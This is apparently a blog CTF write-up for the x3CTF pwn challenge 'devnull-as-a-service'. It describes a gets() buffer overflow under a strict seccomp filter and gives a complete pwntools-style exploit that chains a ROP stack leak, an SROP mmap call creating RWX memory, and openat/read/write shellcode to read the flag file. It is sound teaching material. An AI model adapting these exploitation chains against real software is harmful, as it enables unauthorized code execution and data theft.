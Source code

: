 ```yaml
---
title: "[WRITE UP] - devnull-as-a-service"
published: 2025-01-30
description: ""
image: "./image.png"
tags:
  - PWN
category: "CTF Write ups"
draft: false
---
```


# Description
> A few months ago, I came across this website. Inspired by it, I decided to recreate the service in C to self-host it.
To avoid any exploitable vulnerabilities, I decided to use a very strict seccomp filter. Even if my code were vulnerable, good luck exploiting it.
PS: You can find the flag at `/home/ctf/flag.txt` on the remote server.

# Challenge Overview
The challenge involves exploiting a buffer overflow in a `non-PIE` binary with a strict `seccomp` filter. The goal is to read the flag from `/home/ctf/flag.txt` using allowed syscalls. The key steps involve leaking a stack address, crafting a `Sigreturn-Oriented Programming (SROP)` chain to create an `RWX` memory region, and executing shellcode that utilizes `openat`, `read`, and `write` syscalls.

# Binary Analysis
- Security Features: `Partial RELRO`, `Stack Canary`, `NX Enabled`, `No PIE`.
- Vulnerability: `gets()` in `dev_null()` causing a `buffer overflow`.
- Seccomp Rules: Blocks dangerous syscalls (e.g., `open`, `execve`) but allows `openat`, `read`, `write`, and `sigreturn`.

# Exploit

Looking back, this article seems to be a shellcode article because it has seccomp and although NX is enabled, we can still execute shellcode through ROP, we can use some syscalls like `mmap`, `mprotect` to grant permissions to a certain memory area. This article is special in that there are no common `gadgets` for us to execute a normal ROP chain, but instead there are `syscalls` and `pop rax`, we can immediately think of using `SROP`.

:::note
`Sigreturn-Oriented Programming (SROP)` is an exploitation technique that abuses the Linux kernel’s signal-handling mechanism. When a process receives a signal (e.g., segmentation fault), the kernel saves the process’s execution context (registers, stack, etc.) onto the stack. After handling the signal, the kernel restores the context using the sigreturn syscall. `SROP` exploits this mechanism by forging a fake signal frame on the stack and triggering sigreturn to hijack control of all registers, effectively allowing arbitrary syscalls or code execution.
:::

So the idea for this:

- Leak Stack Address: Use a ROP chain to leak `__libc_stack_end` to determine stack layout.
- `SROP` for RWX Memory: Use `SROP` to call `mmap` and create an executable memory region.
- Shellcode Execution: Inject shellcode using `openat` to open the flag, `read` it, and `write` to stdout.

## Exploit:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./dev_null', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*dev_null+52
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

'''
[*] '/home/alter/CTFs/x3CTF/devnull-as-a-service/dev_null'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
'''

# Leak __libc_stack_end address
def stage1():

    pl = flat([
        b'A'*16,
        pop_rdi,
        exe.sym.__libc_stack_end,
        exe.sym.puts,
        exe.sym.main,
    ])

    sl(pl)
    rl()
    __libc_stack_end = unpack(p.recv()[:6].ljust(8, b"\x00"))
    slog("__libc_stack_end:", __libc_stack_end)

    return __libc_stack_end

# Padding to __libc_stack_end to prepare for ret2main
def stage2():

    pl = flat([
        b'A'*16,
        pop_rdi,
        stack_address,
        exe.sym.gets,
        exe.sym.main,
      ])

    sl(pl)
    sl(cyclic(40) + p64(exe.sym.main))

# Setup and execute Sigreturn
# void *mmap(void addr[.length], size_t length, int prot, int flags, int fd, off_t offset);
def stage3():

    frame = SigreturnFrame()
    frame.rax = 0x9    # mmap syscall
    frame.rdi = rwx    # addr
    frame.rsi = 0x1000 # size
    frame.rdx = 0x7    # prot (RWX)
    frame.r10 = 0x22   # flags (MAP_ANONYMOUS|MAP_PRIVATE)
    frame.r8 = 0       # fd
    frame.r9 = 0       # offset
    frame.rsp = stack_address + 0x28 # return to main
    frame.rip = syscall

    pl = flat([
        b'A'*16,
        pop_rax,
        0xf,
        syscall
    ])
    pl += bytes(frame)

    sl(pl)

# Inject payload to rwx region
def stage4():

    pl = flat([
        b'A'*16,
        pop_rdi,
        rwx,
        exe.sym.gets,
        exe.sym.main,
    ])

    sc = asm('''nop\n'''*0x10+'''

        xor rax, rax
        mov rax, 0x101
        mov rdi, -1
        lea rsi, [rip + file_path]
        syscall

        mov rdi, rax
        mov rsi, rsp
        mov rdx, 0x50
        mov rax, 0
        syscall

        mov rdx, 0x50
        mov rdi, 1
        mov rsi, rsp
        mov rax, 1
        syscall

        file_path:
            .asciz "/home/ctf/flag.txt"

        ''', arch='amd64')

    sl(pl)
    sl(sc)

# Execute that shellcode
def stage5():

    pl = flat([
        b'A'*16,
        rwx
    ])

    sl(pl)

def exploit():
    global pop_rdi, stack_address, pop_rax, syscall, rwx

    pop_rdi = 0x413795 # pop rdi; ret;
    pop_rax = 0x42193c # pop rax; ret;
    syscall = 0x40bcd6 # syscall; ret;
    rwx = 0x11000
    stack_address = stage1()

    stage2()
    stage3()
    stage4()
    stage5()

    interactive()

if __name__ == '__main__':
    exploit()
```
